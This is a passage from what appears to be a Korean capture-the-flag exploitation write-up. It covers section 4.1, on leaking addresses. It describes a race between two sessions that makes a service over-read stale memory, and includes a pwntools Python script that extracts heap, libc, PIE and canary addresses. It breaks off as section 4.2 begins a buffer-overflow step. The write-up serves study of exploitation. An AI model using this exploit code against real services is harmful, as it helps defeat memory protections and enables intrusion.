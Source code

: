 ### 4.1. Leak addresses

1번 세션과 2번 세션을 같은 이름으로 로그인한 뒤, 같은 title로 연속적으로 파일을 생성한다.

1번 세션에서는 파일의 데이터가 0x3f0 byte일 것으로 예상하고있으나, 2번 세션에 의해 실제 파일의 길이는 1 byte이다.

`send_to_room` 함수를 통해 buffer 변수를 0x3f0 만큼 읽으면 기존에 메모리에 남아있던 다양한 주소값들이 한꺼번에 leak된다.

이를 바탕으로 `heap_base`, `libc_base`, `pie_base`, `1st node’s address`, `canary’s address` 등을 얻을 수 있다.

```python
sess1.register(title, 0x3f0, b'A' * 0x3f0)
time.sleep(SLEEP_TICK)

sess2.register(title, 0x1, b'B' * 0x1)
time.sleep(SLEEP_TICK)

leaked = b''
def listen_background(port):
    global leaked
    l = listen(port)
    c = l.wait_for_connection()
    leaked = c.recv()
    # print(leaked)
    c.close()
    l.close()

port = 5959
t = threading.Thread(target=listen_background, args=(port,))
t.start()

time.sleep(SLEEP_TICK)
sess1.broadcast(1)
t.join()

assert leaked, "Failed to leak"

print(f"Leaked: {leaked}")

node1_addr = u32(b'\x80'+leaked[1:4])
heap_base = node1_addr - 0x1180
canary_addr = u32(leaked[-12:-8]) - 0x18
libc_base = u32(leaked[-20:-16]) - 0x1b35a0
pie_base = u32(leaked[-16:-12]) - 0x2349

print(f"heap_base: {hex(heap_base)}")
print(f"libc_base: {hex(libc_base)}")
print(f"pie_base: {hex(pie_base)}")
print(f"node1_addr: {hex(node1_addr)}")
print(f"&canary: {hex(canary_addr)}")
```

### 4.2. Leak Canary
1. BOF를 활용해 1번째 node를 free시킨다.
